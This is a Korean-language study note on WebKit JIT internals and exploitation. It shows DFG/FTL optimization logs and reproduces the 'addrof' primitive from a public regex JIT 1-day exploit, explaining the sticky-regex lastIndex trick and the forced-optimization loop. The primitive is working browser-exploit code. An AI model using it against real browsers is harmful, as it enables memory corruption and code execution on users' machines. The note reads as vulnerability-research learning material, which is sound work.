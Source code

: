     Optimized fac#DaoLIQ:[0x7f4659e50000->0x7f4659efce70, LLIntFunctionCall, 167] with Baseline JIT into 4512 bytes in 1.285669 ms.
    Optimized <global>#B4X0zh:[0x7f4659e5c000->0x7f4659e64000, LLIntGlobal, 203] with Baseline JIT into 5600 bytes in 0.776776 ms.
    Optimized fac#DaoLIQ:[0x7f4659e50230->0x7f4659e50000->0x7f4659efce70, NoneFunctionCall, 167] using DFGMode with DFG into 2240 bytes in 11.593936 ms.
    Optimized <global>#B4X0zh:[0x7f4659e5c230->0x7f4659e5c000->0x7f4659e64000, NoneGlobal, 203] using DFGMode with DFG into 2336 bytes in 9.664092 ms.
    Optimized fac#DaoLIQ:[0x7f4659e50460->0x7f4659e50000->0x7f4659efce70, NoneFunctionCall, 167 (DidTryToEnterInLoop)] using FTLMode with FTL into 672 bytes in 24.677882 ms (DFG: 16.702574, B3: 7.975308).
    [Finished in 0.3s]

많은 작업 수행시 DFG JIT, FTL JIT을 사용해 최적화한다.

아래 1day에서는 JIT취약점을 이용해 트리거 하였다.

[LinusHenze/WebKit-RegEx-Exploit](https://github.com/LinusHenze/WebKit-RegEx-Exploit)

## addrof

    // addrof primitive
    function addrof(val) {
        var array = [13.37];
        var reg = /abc/y;
            
        // Target function
        var AddrGetter = function(array) {
            //reg[Symbol.match]();
            "abc".match(reg);
            return array[0];
        }
        
        // Force optimization
        for (var i = 0; i < 10000; ++i)
            AddrGetter(array);
        
        // Setup haxx
        regexLastIndex = {};
        regexLastIndex.toString = function() {
            array[0] = val;
            return "0";
        };
        reg.lastIndex = regexLastIndex;
        
        // Do it!
        return AddrGetter(array);
    }

`var reg = /abc/y;` 에서 `y`는 `sticky`를 의미한다. `sticky`모드에서는 lastIndex를 지정할 수 있는데 지정된 인덱스부터 비교하는 기능이다.

        // Force optimization
        for (var i = 0; i < 10000; ++i)
            AddrGetter(array);

